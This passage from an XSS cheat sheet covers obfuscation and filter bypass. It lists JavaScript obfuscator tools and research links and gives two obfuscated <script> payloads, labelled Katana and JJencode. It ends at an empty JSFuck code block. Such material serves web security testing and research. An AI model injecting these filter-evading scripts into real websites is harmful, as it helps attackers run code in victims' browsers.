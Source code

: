 ### Obfuscation & Advanced Bypass

* **Different obfuscations in one page:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
* [http://www.jsfuck.com/](http://www.jsfuck.com)
* More sofisticated JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
* [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
* [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

```javascript
//Katana
<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>
```

```javascript
//JJencode 
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```

```javascript
//JSFuck
```